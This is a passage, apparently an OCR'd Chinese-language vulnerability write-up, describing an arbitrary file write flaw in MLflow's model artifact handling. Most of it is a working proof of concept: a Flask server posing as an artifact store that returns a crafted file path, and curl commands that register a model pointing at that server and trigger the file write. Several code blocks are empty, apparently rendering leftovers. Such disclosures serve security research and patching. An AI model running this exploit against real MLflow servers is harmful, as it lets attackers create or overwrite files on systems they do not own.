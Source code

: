 对于属性中列出的每个文件，它将获取并写入属性值的输出。由于没有检查，因此可以在系统上创建和控制任何文件，即  
```
files/api/2.0/mlflow-artifacts/artifacts/[path]path/tmp/random
```  
  
为了滥用此漏洞，必须设置一个恶意的HTTP服务器来控制写入路径和数据。以下一个将用于接下来的 2 个 PoC：  
```
from flask import Flask, jsonify

app = Flask(__name__)
app.config["DEBUG"] = True

@app.errorhandler(404)
def page_not_found(e):
    return "Hello World!"

@app.route("/api/2.0/mlflow-artifacts/artifacts")
def index():
    return jsonify({
        "files": [
            {
                "path": "/tmp/poc",
                "is_dir": False,
                "file_size": 50
            }
        ]
    })

app.run("0.0.0.0", 4444)
```  
  
启动 mlflow Web 服务器：  
```
mlflow ui --host 127.0.0.1:5000
```  
  
启动攻击服务器：  
```
python run.py
```  
  
创建已注册的模型：  
```
```  
```
curl -X POST -H 'Content-Type: application/json' -d '{"name": "poc"}' 'http://127.0.0.1:5000/ajax-api/2.0/mlflow/registered-models/create'
```  
  
创建第一个模型：（源将与流氓服务器相关联）  
```
```  
```
curl -X POST -H 'Content-Type: application/json' -d '{"name": "poc", "source": "http://127.0.0.1:4444/api/2.0/mlflow-artifacts/artifacts/"}' 'http://127.0.0.1:5000/ajax-api/2.0/mlflow/model-versions/create'
```  
```
```  
```
```  
```
curl -X POST -H 'Content-Type: application/json' -d '{"name": "poc", "source": "models:/poc/1"}' 'http://127.0.0.1:5000/ajax-api/2.0/mlflow/model-versions/create'
```  
```
```  
```
```  
```
curl 'http://127.0.0.1:5000/model-versions/get-artifact?path=random&name=poc&version=2'
```